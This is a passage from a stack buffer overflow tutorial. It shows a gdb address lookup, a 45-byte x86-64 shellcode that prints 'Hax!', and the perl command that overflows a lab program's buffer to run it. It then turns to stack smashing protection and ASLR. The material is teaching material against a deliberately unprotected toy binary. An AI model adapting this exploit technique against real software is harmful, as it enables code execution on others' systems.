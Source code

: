 -----------------------------------
(gdb) p &name
$2 = (char (*)[32]) 0x7fffffffe0a0
-----------------------------------

We can use perl to print unprintable characters to the command line, by escaping
them like this: "\x41". Furthermore, because of the way little-endian machines
store integers and pointers, we have to reverse the order of the bytes. So the 
value we will use to overwrite the Saved Instruction Pointer will be:
"\xa0\xe0\xff\xff\xff\x7f"

This is the shellcode that will print our message to the screen and then exit:
"\xeb\x22\x48\x31\xc0\x48\x31\xff\x48\x31\xd2\x48\xff\xc0\x48\xff\xc7\x5e\x48
\x83\xc2\x04\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05\xe8\xd9
\xff\xff\xff\x48\x61\x78\x21"

Note that these are just instructions in machine code form, escaped so that they
are printable with perl. Because the shellcode is 45 bytes long, and we need to
provide 72 bytes of data before we can overwrite the SIP, we have to add 27
bytes as padding. So the string we use to own the program looks like this:

"\xeb\x22\x48\x31\xc0\x48\x31\xff\x48\x31\xd2\x48\xff\xc0\x48\xff\xc7\x5e\x48
\x83\xc2\x04\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05\xe8\xd9
\xff\xff\xff\x48\x61\x78\x21" . "A"x27 . "\xa0\xe0\xff\xff\xff\x7f"

The program will jump to 0x7fffffffe0a0 when it is done executing the function 
go(). This is where the name[] buffer is located, which we have filled with our
machine code. It should then execute our machine code to print our message and 
exit the program. Let's try it (note that you should remove all line breaks when 
you try to reproduce this):

-----------------------------------
$ ./oldskool `perl -e 'print "\xeb\x22\x48\x31\xc0\x48\x31\xff\x48\x31\xd2\x48
\xff\xc0\x48\xff\xc7\x5e\x48\x83\xc2\x04\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c
\x48\x31\xff\x0f\x05\xe8\xd9\xff\xff\xff\x48\x61\x78\x21" . "A"x27 . "\xa0\xe0
\xff\xff\xff\x7f"'`
Hax!$ 
-----------------------------------

It worked! Our important message has been delivered, and the process has exit.

[4\. Protection mechanisms]
Welcome back to 2012\. The example above does not work anymore on so many levels.
There are a lot of different protection mechanisms in place today on our ubuntu
system, and this particular type of vulnerability does not even exist in this
form anymore. There are still overflows that can happen on the stack though,
and there are still ways of exploiting them. That is what I want to show you
in this section, but first let's look at the different protection schemes.

[4.1 Stack Smashing Protection]
In the first example, we used the -fno-stack-protector flag to indicate to gcc
that we did not want to compile with stack smashing protection. What happens if
we leave this out, along with the other flags we passed earlier? Note that at 
this point ASLR is back on and so everything is set to their defaults.
